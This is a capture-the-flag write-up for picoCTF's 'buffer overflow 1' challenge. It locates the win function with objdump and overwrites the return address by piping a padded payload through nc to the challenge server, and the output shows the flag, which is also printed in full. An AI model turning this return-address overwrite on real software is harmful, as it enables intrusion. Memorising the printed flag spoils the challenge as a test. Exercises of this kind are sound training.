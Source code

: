 # buffer overflow 1
## Descripcion
Control the return addressNow we're cooking! You can overflow the buffer and return to the flag function in the [program](https://artifacts.picoctf.net/c/186/vuln).You can view source [here](https://artifacts.picoctf.net/c/186/vuln.c). And connect with it using `nc saturn.picoctf.net 65445`
## Pistas
- Make sure you consider big Endian vs small Endian.
- Changing the address of the return pointer can call different functions.
## Solucion
``
```
┌──(kali㉿kali)-[~/Documents]
└─$ objdump -D vuln -M intel | grep 'win'
080491f6 <win>:
 804922c:       75 2a                   jne    8049258 <win+0x62>
                                                                                                                                                                       
┌──(kali㉿kali)-[~/Documents]
└─$ echo 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf6\x91\x04\x08' | nc saturn.picoctf.net 65445
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{addr3ss3s_ar3_3asy_9cf083f8}    

```


## Bandera
picoCTF{addr3ss3s_ar3_3asy_9cf083f8} 

## Notas adicionales

## Referencias
